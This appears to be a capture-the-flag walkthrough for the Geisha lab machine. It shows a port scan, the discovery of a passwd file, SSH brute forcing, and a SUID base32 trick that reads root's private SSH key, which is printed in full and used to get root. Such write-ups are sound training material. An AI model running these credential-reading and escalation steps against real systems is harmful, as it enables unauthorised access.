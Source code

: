```yaml
---
categories: [proving-ground-play]
tags: [proving-ground,walkthrough,pentest]
---
```


Lets check the IP Now ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled.png)

```bash
IP : 192.168.249.133
```

## Port Scan Results ⬇️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Giesha]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.133                                              
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 06:00 EDT
Nmap scan report for 192.168.249.133
Host is up (0.00074s latency).
Not shown: 65528 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 1bf25dcd8913f249009f8cf9eba2a20c (RSA)
|   256 315a652eab0f59abe0333a0cfc49e05f (ECDSA)
|_  256 c6a735149613f8de1ee2bce7c7668bac (ED25519)
80/tcp   open  http     Apache httpd 2.4.38 ((Debian))
|_http-title: Geisha
|_http-server-header: Apache/2.4.38 (Debian)
7080/tcp open  ssl/http LiteSpeed httpd
|_http-title: Geisha
| ssl-cert: Subject: commonName=geisha/organizationName=webadmin/countryName=US
| Not valid before: 2020-05-09T14:01:34
|_Not valid after:  2022-05-09T14:01:34
|_http-server-header: LiteSpeed
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|   h2
|   spdy/3
|   spdy/2
|_  http/1.1
7125/tcp open  http     nginx 1.17.10
|_http-server-header: nginx/1.17.10
|_http-title: Geisha
8088/tcp open  http     LiteSpeed httpd
|_http-title: Geisha
|_http-server-header: LiteSpeed
9198/tcp open  http     SimpleHTTPServer 0.6 (Python 2.7.16)
|_http-title: Geisha
|_http-server-header: SimpleHTTP/0.6 Python/2.7.16
MAC Address: 00:0C:29:47:3A:B7 (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ➡️

Now That I have 4 http ports and 1 http port with ssl certificate So All have a common type/Interface of web page ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%201.png)

Now with `feroxbuster` as a Directory Traversal tool I found some file from port `7125` file name `passwd`.

```bash
└─$ cat passwd                                                                                                             
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
geisha:x:1000:1000:geisha,,,:/home/geisha:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lsadm:x:998:1001::/:/sbin/nologin
```

As I got a username as `geisha` so lets try ssh brute force with hydra ➡️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%202.png)

```bash
Credentials ➡️
geisha  :  letmein
```

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%203.png)

Now lets find SUIDs commands ➡️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%204.png)

So lets run it ⤵️

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%205.png)

I have got a shadow file but I cant read it so lets use above command to read it .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%206.png)

Now lets run `base32 shadow | base32 --decode` .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%207.png)

Now lets try something else like accessing the id_rsa from root .

```bash
geisha@geisha:/$ base32 /root/.ssh/id_rsa | base32 --decode
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA43eVw/8oSsnOSPCSyhVEnt01fIwy1YZUpEMPQ8pPkwX5uPh4
OZXrITY3JqYSCFcgJS34/TQkKLp7iG2WGmnno/Op4GchXEdSklwoGOKNA22l7pX5
89FAL1XSEBCtzlrCrksvfX08+y7tS/I8s41w4aC1TDd5o8c1Kx5lfwl7qw0ZMlbd
5yeAUhuxuvxo/KFqiUUfpcpoBf3oT2K97/bZr059VU8T4wd5LkCzKEKmK5ebWIB6
fgIfxyhEm/o3dl1lhegTtzC6PtlhuT7ty//mqEeMuipwH3ln61fHXs72LI/vTx26
TSSmzHo8zZt+/lwrgroh0ByXbCtDaZjo4HAFfQIDAQABAoIBAQCRXy/b3wpFIcww
WW+2rvj3/q/cNU2XoQ4fHKx4yqcocz0xtbpAM0veIeQFU0VbBzOID2V9jQE+9k9U
1ZSEtQJRibwbqk1ryDlBSJxnqwIsGrtdS4Q/CpBWsCZcFgy+QMsC0RI8xPlgHpGR
Y/LfXZmy2R6E4z9eKEYWlIqRMeJTYgqsP6ZR4SOLuZS1Aq/lq/v9jqGs/SQenjRb
8zt1BoqCfOp5TtY1NoBLqaPwmDt8+rlQt1IM+2aYmxdUkLFTcMpCGMADggggtnR+
10pZkA6wM8/FlxyAFcNwt+H3xu5VKuQKdqTfh1EuO3c34UmuS1qnidHO1rYWOhYO
jceQYzoBAoGBAP/Ml6cp2OWqrheJS9Pgnvz82n+s9yM5raKNnH57j0sbEp++eG7o
2po5/vrLBcCHGqZ7+RNFXDmRBEMToru/m2RikSVYk8QHLxVZJt5iB3tcxmglGJj/
cLkGM71JqjHX/edwu2nNu14m4l1JV9LGvvHR5m6uU5cQvdcMTsRpkuxdAoGBAOOl
THxiQ6R6HkOt9w/WrKDIeGskIXj/P/79aB/2p17M6K+cy75OOYzqkDPENrxK8bub
RaTzq4Zl2pAqxvsv/CHuJU/xHs9T3Ox7A1hWqnOOk2f0KBmhQTYBs2OKqXXZotHH
xvkOgc0fqRm1QYlCK2lyBBM14O5Isud1ZZXLUOuhAoGBAIBds1z36xiV5nd5NsxE
1IQwf5XCvuK2dyQz3Gy8pNQT6eywMM+3mrv6jrJcX66WHhGd9QhurjFVTMY8fFWr
edeOfzg2kzC0SjR0YMUIfKizjf2FYCqnRXIUYrKC3R3WPlx+fg5CZ9x/tukJfUEQ
65F+vBye7uPISvw3+O8n68shAoGABXMyppOvrONjkBk9Hfr0vRCvmVkPGBd8T71/
XayJC0L6myG02wSCajY/Z43eBZoBuY0ZGL7gr2IG3oa3ptHaRnGuIQDTzQDj/CFh
zh6dDBEwxD9bKmnq5sEZq1tpfTHNrRoMUHAheWi1orDtNb0Izwh0woT6spm49sOf
v/tTH6ECgYEA/tBeKSVGm0UxGrjpQmhW/9Po62JNz6ZBaTELm3paaxqGtA+0HD0M
OuzD6TBG6zBF6jW8VLQfiQzIMEUcGa8iJXhI6bemiX6Te1PWC8NMMULhCjObMjCv
bf+qz0sVYfPb95SQb4vvFjp5XDVdAdtQov7s7XmHyJbZ48r8ISHm98s=
-----END RSA PRIVATE KEY-----
```

Now lets create id_rsa file in /tmp directory and give permission 600 to it , then execute it as ssh as root .

![Untitled](/Vulnhub-Files/img/Geisha/Untitled%208.png)

Now I am root cool !!

```bash
root@geisha:~# cat flag.txt
Flag{Sun_CTF_220_5_G31sha}
root@geisha:~#
```